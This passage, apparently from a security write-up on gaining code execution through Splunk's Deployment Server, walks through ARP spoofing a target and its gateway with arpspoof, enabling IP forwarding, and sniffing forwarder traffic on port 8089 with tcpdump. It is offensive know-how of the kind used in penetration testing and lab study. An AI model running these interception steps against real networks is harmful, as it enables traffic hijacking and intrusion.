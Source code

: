 ## ARP spoofing

We need to ARP spoof the target to be able to say we are the deployment server. However, we are not always lucky enough to be in the same network as the real Deployment Server. Hence, we need to find out where it is, and spoof it. We do that by spoofing the default gateway for our target, consequently routing everything through us.

First enable port forwarding on the attacking host

    sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sed -i 's/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/' /etc/sysctl.conf
    sysctl -p

![](../assets/img/splunk-rce/2019-10-03-01-01-39.png)

Open two terminals and execute `arpspoof` to tell the target that we are the default gateway and the gateway that we are the target. This way, all traffic to and from the target will be forwarded through our attacker host.

    arpspoof -i eth0 -t 192.168.0.134 192.168.0.1
    arpspoof -i eth0 -t 192.168.0.1 192.168.0.134

Instantly upon execution, ARP replies are coming in.

![](../assets/img/splunk-rce/2019-10-03-00-46-11.png)

![](../assets/img/splunk-rce/2019-10-03-00-46-22.png)

## Finding the real Deployment Server

If you are lucky, the DS is in the same network as your attacker host and target. If it is you can just ARP spoof that server directly. However, if the DS is in a different network, you need to find out where the DS is.

Note: when I did this I had both SSH and RDP going on to the boxes, so I filtered those and ARP requests, and focus on traffic to and from my target. We know that UFs communicate outbound on `8089` so we can filter on that.

    tcpdump -i eth0 port not 22 and port not 3389 and not ARP and host 192.168.0.134 and port 8089
